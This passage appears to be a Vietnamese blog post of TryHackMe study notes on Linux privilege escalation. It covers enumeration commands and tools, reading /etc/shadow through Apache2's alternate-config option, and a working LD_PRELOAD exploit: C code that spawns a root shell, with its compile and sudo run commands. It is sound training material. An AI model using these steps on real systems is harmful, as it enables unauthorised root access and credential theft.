 ```yaml
---
title: "Linux Privilege Escalation"
date: "2025-02-13"
excerpt: "Linux Privilege Escalation - Tryhackme"
featured: "/images/linux_escape.webp"
---
```


## Step 1: Enumeration

Enumeration là bước đầu tiên bạn phải thực hiện một khi bạn có quyền truy cập vào bất kỳ hệ thống nào. 

`hostname`: trả về hostname của hệ thống đích => có thể chứa thông tin về hệ thống

`uname -a`: Đưa ra thông tin chi tiết về kernel của system

`/proc/version`: Chứa các thông tin về các tiến trình trên hệ thống mục tiêu. 

`/etc/issue`: Chứa thông tin về Hệ điều hành

`ps command`: Đưa ra các tiến trình đang chạy trên Linux bao gồm PID (process id), TTY (Terminal type used by the user), Time (Khoảng thời gian CPU được sử dụng bởi tiến trình), CMD (dòng lệnh hay câu lệnh thực thi đang chạy).

`ps -A`: Xem tất cả tiến trình đang chạy

`ps axjf`: Xem tiến trình dạng cây

`ps aux`: Tiến trình của toàn bộ users

`env`: Show các biến môi trường

`sudo -l`: Hệ thống mục tiêu được cấu hình để cho phép người dùng chạy 1 vài (hoặc tất cả) các lệnh với quyền __root__ => List các command có thể được user chạy với quyền __root__

`netstat`: Được sử dụng với 1 số options khác nhau để thu thập thông tin và các connections hiện có

__netstat -a__: show các ports đnag lắng nghe và các kết nối đã được thành lập.

__netstat -at__ hoặc __netstat -au__: hiện các giao thức TCP, UDP tương ứng.

__netstat -l__: các ports ở chế độ lắng nghe. Option -t: TCPP protocol

`find Command`: Tìm kiếm thông tin

__find . -name flag1.txt__: Tìm kiếm file flag1.txt ở thư mục hiện tại.

__find /home -name flag1.txt__: Tìm kiếm file flag1.txt ở thư mục /home.

__find / -type d -name config__: Tìm kiếm folder tên "config" ở "/"

__find / -type f -perm 0777__

__find / -perm a=x__: Tìm file thực thi

__find /home -user frank__: TÌm các file của người dùng "frank" trong folder /home

__find / -mtime 10__: Tìm các file mới được sửa đổi trong 10 ngày

__find / -atime 10__: Tìm các file mới được truy cập trong 10 ngày

__find / -cmin -60__: Tìm các file mới được sửa đổi trong 60 phút

__find / -amin -60__: Tìm các file mới được truy cập trong 60 phút

__find / -size +100M__

__-type f 2>/dev/null__: đưa ra output sạch, lỗi đưa vào /dev/null

Tìm kiếm các folder có thể ghi:

`find / -writable -type d 2>/dev/null`

`find / -perm -222 -type d 2>/dev/null`

`find / -perm -o w -type d 2>/dev/null`

`find / -name gcc*`

## Step 2: Automated Enumeration Tools

`LinPeas`: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

`LinEnum`: https://github.com/rebootuser/LinEnum

`LES (Linux Exploit Suggester)`: https://github.com/mzet-/linux-exploit-suggester

`Linux Smart Enumeration`: https://github.com/diego-treitos/linux-smart-enumeration

`Linux Priv Checker`: https://github.com/linted/linuxprivchecker

## Step 3: Privilege Escalation

### Kernel Exploits

Kernel trên Linux quản lý việc các thành phần như memory trên hệ thống và ứng dụng giao tiếp với nhau. Các chức năng này cần có quyền cụ thể => Khai thác thành công, có quyền __root__

__Khai thác Kernel__

- Nhận dạng version của kernel
- Tìm kiếm code exploit của version đó
- Chạy code

### Sudo

Lệnh __sudo__ cho phép người dùng chạy chương trình với quyền __root__. Trong 1 số trường hợp, admin có thể cho người dùng quyền __root__ khi thực hiện công việc gì đó. 

`sudo -l`: Hệ thống mục tiêu được cấu hình để cho phép người dùng chạy 1 vài (hoặc tất cả) các lệnh với quyền __root__ => List các command có thể được user chạy với quyền __root__

[gtfobins](https://gtfobins.github.io/): tài nguyên cung cấp thông tin cách chương trình có thể có quyền sudo có thể được sử dụng

__Leverage application functions__

Apache2 có option lựa chọn tệp cấu hình thay thế

![image](https://i.imgur.com/rNpbbL8.png)

=> Load file `/etc/shadow` luôn cũng được, sẽ ra dòng đầu tiên

__Leverage LD_PRELOAD__

Trên một số hệ thống, ta có thể thấy LD_PRELOAD env option

![image](https://i.imgur.com/gGstS69.png)

LD_PRELOAD là một chức năng cho phép bất kỳ chương trình nào sử dụng các thư viện được chia sẻ.

[Blog này](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/) nói cho bạn về khả năng của LD_PRELOAD. Nếu option __env_keep__ được bật, ta có thể generate thư viện chung để mà được load và thực thi trước khi chương trình được chạy. LD_PRELOAD sẽ bị bỏ qua nếu ID người dùng thực khác với ID người dùng hiệu quả.

Các bước leo quyền với LD_PRELOAD:
- Check LD_PRELOAD với option env_keep
- Viết code C và compile về share object file (.so extension)
- Chạy chương trình với quyefn sudo và LD_PRELOAD trỏ tới file .so của ta

Code C:

```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

Compile

```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

Run program

```
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```

Result

![image](https://i.imgur.com/1YwARyZ.png)

### SUID

